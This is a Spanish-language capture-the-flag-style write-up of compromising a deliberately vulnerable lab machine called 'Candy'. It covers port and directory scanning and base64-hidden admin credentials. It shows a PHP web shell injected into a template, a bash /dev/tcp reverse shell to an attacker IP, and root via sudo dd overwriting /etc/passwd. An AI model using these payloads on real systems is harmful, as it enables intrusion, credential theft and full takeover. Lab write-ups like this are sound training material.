# Reporte Técnico - Pentesting Máquina Vulnerable **Candy**

**Nivel:** Fácil

---

## Descripción

Se descargó la máquina vulnerable y se descomprimió con:

```bash
unzip candy.zip
```

Luego se desplegó con:

```bash
sudo bash auto_deploy.sh candy.tar
```



---



---

## Conectividad

Se verificó la conexión a la máquina con un ping:

```bash
ping -c1 172.17.0.3
```



---

## Escaneo de puertos

Se ejecutó un escaneo intensivo para identificar puertos abiertos:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3 -oG allPorts.txt
```

Solo se encontró el puerto 80 (HTTP) abierto.


Luego, para obtener más detalles sobre el puerto 80:

```bash
nmap -sC -sV -p80 172.17.0.3 -oN target.txt
```



---

## Reconocimiento web

Al acceder a [http://172.17.0.3:80](http://172.17.0.3:80) se encontró una página con formulario de inicio de sesión y registro.


---

## Fuzzing de directorios ocultos

Se realizó fuzzing para descubrir directorios ocultos con:

```bash
gobuster dir -u http://172.17.0.3/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x php,html,txt
```

Se encontraron los siguientes directorios:

```
/images               
/media               
/templates           
/modules              
/plugins             
/includes             
/language             
/README.txt           
/components           
/api                  
/cache                
/index.php            
/robots.txt           
/tmp                  
/LICENSE.txt          
/layouts              
/administrator       
/configuration.php    
/htaccess.txt        
/cli                 
```



---

## Usuarios y credenciales

En el directorio `/administrator` se encontró el usuario `TLuisilloo`:
[http://172.17.0.3/administrator/index.php](http://172.17.0.3/administrator/index.php)


En `/robots.txt` se hallaron posibles credenciales codificadas:

```
admin:c2FubHVpczEyMzQ1
```

Decodificando base64 con:

```bash
echo c2FubHVpczEyMzQ1 | base64 -d
```

Obtenemos la contraseña:

```
sanluis12345
```




Con estas credenciales se logró acceder como administrador:



---

## Subida de Webshell

En el menú `System > Site Templates` se encontró la posibilidad de subir archivos maliciosos para obtener una web shell.


---

## Método de explotación 1: Inyección de Web Shell PHP

Se modificó el archivo `index.php` en la línea 143 agregando:

```php
<?php echo system($_GET['shadow']); ?>
```

* **$\_GET\['shadow']**: obtiene el parámetro `shadow` de la URL.
* **system()**: ejecuta el comando del sistema operativo recibido.
* **echo**: muestra la salida del comando en el navegador.

**Ejemplo de uso:**

```
http://172.17.0.3/index.php?shadow=ls
```

Ejecuta `ls` y muestra el resultado. También:

```
http://172.17.0.3/index.php?shadow=cat%20/etc/passwd
```

Revela el contenido de `/etc/passwd`.


---

## Método 2: Reverse Shell en PHP

Se reutilizó el mismo código de la web shell. Desde el navegador se ejecuta:

```
http://172.17.0.3/?shadow=bash+-c+'bash+-i+>%26+/dev/tcp/192.168.1.10/433+0>%261'
```

(Cambia la IP y puerto según tu equipo)

Se debe tener el puerto escuchando antes con:

```bash
sudo nc -lvnp 433
```

Y se obtiene acceso a una terminal remota.



---

## Escalada de privilegios

Al no poder usar `sudo -l` directamente, se buscó con:

```bash
find / -name "*.txt" 2>/dev/null
```

Se encontró el archivo `/var/backups/hidden/otro_caramelo.txt` con credenciales sensibles:

```php
$db_host = 'localhost';
$db_user = 'luisillo';
$db_pass = 'luisillosuperpassword';
$db_name = 'joomla_db';
```



Verificando usuarios en `/etc/passwd`, existe `luisillo`. Con estas credenciales se pudo usar:

```bash
sudo -l
```

Mostrando que `luisillo` puede usar:

```
(ALL) NOPASSWD: /bin/dd
```



---

## Escalada final con dd

1. Copiamos `/etc/passwd` para editarla:

```bash
cat /etc/passwd > copia.txt
```

2. Eliminamos la `x` (marca de contraseña) del archivo:

```bash
sed 's/x//g' copia.txt > copia_sin_x.txt
```

3. Sobrescribimos `/etc/passwd` con la copia modificada:

```bash
cat copia_sin_x.txt | sudo /bin/dd of=/etc/passwd
```

4. Accedemos como root con:

```bash
su
```



---

# Conclusión

Se logró explotar la máquina vulnerable Candy a nivel fácil, desde reconocimiento hasta escalada de privilegios root, mediante técnicas de webshell, reverse shell y explotación de permisos sudo con `dd`. Este ejercicio demuestra la importancia de proteger la ejecución remota de comandos y la correcta configuración de sudoers.

---
